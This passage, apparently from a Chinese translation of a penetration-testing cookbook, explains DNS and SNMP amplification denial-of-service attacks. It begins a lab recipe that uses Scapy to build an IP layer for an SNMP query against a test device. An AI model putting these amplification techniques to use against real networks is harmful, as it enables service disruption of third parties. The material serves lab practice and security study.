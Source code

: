 放大攻击的原理是利用第三方设备，使网络流量压倒目标。 对于多数放大攻击，必须满足两个条件：

+   用于执行攻击的协议不验证请求源
+   来自所使用的网络功能的响应应该显着大于用于请求它的请求。

DNS 放大攻击的效率取决于 DNS 查询的响应大小。 另外，可以通过使用多个 DNS 服务器来增加攻击的威力。

## 6.5 SNMP 放大 DoS 攻击

SNMP 扩展攻击通过伪造具有大型响应的查询，来利用团体字符串可预测的 SNMP 设备。 通过使用分布式 DDoS 组件，以及通过同时向多个 SNMP 设备发送请求，可以提高这种攻击的效率。

### 准备

为了模拟 SNMP 放大攻击，你需要有一个启用 SNMP 的设备。 所提供的示例使用 Windows XP 设备。 有关设置 Windows 系统的更多信息，请参阅本书第一章中的“安装 Windows Server”秘籍。 此外，此秘籍将 Ubuntu 用作扫描目标。 有关设置 Ubuntu 的更多信息，请参阅本书第一章中的“安装 Ubuntu Server”秘籍。

### 操作步骤

为了开始，我们应该初始化一个 SNMP 查询，使其返回到我们的系统，来评估要使用的载荷大小。 为了发送我们的 SNMP 查询请求，我们必须首先构建此请求的层级。 我们需要构建的第一层是 IP 层：

```
>>> i = IP() 
>>> i.display() 
###[ IP ]###
  version= 4
  ihl= None
  tos= 0x0
  len= None
  id= 1
  flags=
  frag= 0
  ttl= 64
  proto= ip
  chksum= None
  src= 127.0.0.1
  dst= 127.0.0.1
  \options\ 
>>> i.dst = "172.16.36.134" 
>>> i.display() 
###[ IP ]###
  version= 4
  ihl= None
  tos= 0x0
  len= None
  id= 1
  flags=
  frag= 0
  ttl= 64
  proto= ip
  chksum= None
  src= 172.16.36.224
  dst= 172.16.36.134
  \options\
```
